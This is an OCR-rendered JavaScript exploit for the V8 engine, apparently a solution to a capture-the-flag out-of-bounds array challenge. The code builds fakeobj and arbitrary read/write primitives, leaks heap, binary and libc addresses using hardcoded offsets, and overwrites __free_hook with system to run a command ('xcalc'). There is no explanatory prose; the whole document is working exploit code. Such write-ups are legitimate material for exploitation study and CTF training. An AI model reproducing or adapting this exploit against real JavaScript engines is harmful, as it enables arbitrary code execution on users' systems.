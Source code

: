 ```javascript

function fakeobj(addr) {
    float_arr[0] = itof(addr);
    float_arr.oob(obj_arr_map);
    let fake = float_arr[0];
    float_arr.oob(float_arr_map);

    return fake;
}

var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function aar(addr) {
    if(addr % 2n == 0)
        addr += 1n;

    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    return ftoi(fake[0]);
}

function aaw_init(addr, val) {
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
    fake[0] = itof(BigInt(val));
}


function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    aaw_init(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}

var test = new Array([1.1, 2.2, 3.3, 4.4]);

var test_addr = addrof(test);
var map_ptr = aar(test_addr - 1n);
console.log("[+] map_ptr: 0x" + map_ptr.toString(16));
var map_sec_base = map_ptr - 0x2f79n;
var heap_ptr = aar(map_sec_base + 0x18n);
var PIE_leak = aar(heap_ptr);
var PIE_base = PIE_leak - 0xd87ea8n;
console.log("[+] PIE_leak: 0x" + PIE_leak.toString(16));
console.log("[+] PIE_base: 0x" + PIE_base.toString(16));
var puts_got = PIE_base + 0xd9a3b8n;
var libc_base = aar(puts_got) - 0x6f6a0n;
var __free_hook = libc_base + 0x3c67a8n;
var system = libc_base + 0x453a0n;
console.log("[+] puts_got: 0x" + puts_got.toString(16));
console.log("[+] libc_base: 0x" + libc_base.toString(16));
console.log("[+] __free_hook: 0x" + __free_hook.toString(16));
console.log("[+] system: 0x" + system.toString(16));

arb_write(__free_hook, system);

console.log("xcalc")
```